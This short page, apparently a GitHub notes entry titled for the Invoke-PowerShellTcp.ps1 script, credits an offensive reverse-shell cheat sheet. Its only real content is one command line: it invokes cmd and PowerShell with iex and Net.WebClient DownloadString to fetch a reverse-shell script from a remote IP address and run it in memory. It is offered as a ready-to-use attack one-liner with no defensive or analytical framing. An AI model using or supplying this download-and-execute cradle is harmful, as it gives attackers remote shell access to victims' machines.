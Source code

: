 # Invoke-PowerShellTcp.ps1

![image](https://user-images.githubusercontent.com/68978608/227783582-d59053ac-b137-4860-80b5-c0bb53a2f1c8.png)
![image](https://user-images.githubusercontent.com/68978608/227783620-e81a7e9d-6dc6-494c-b459-36b666a35049.png)

credits: @https://github.com/d4t4s3c/Offensive-Reverse-Shell-Cheat-Sheet/tree/master

obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.1.2/Invoke-PowerShellTcp.ps1')")
